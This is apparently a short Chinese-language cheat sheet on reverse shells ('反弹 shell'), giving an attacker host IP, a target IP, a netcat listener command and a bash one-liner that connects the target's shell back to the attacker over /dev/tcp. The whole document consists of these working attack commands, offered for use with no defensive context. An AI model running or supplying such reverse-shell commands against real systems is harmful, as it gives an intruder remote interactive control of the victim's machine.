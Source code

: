 # 反弹 shell

> 主机 IP: 192.168.8.8
> 靶机 IP: 192.168.8.9

- 主机: `nc -lvvp 299`

#### 1

```bash
# 40个字符
bash -i >& /dev/tcp/192.168.8.8/299 0>&1
```
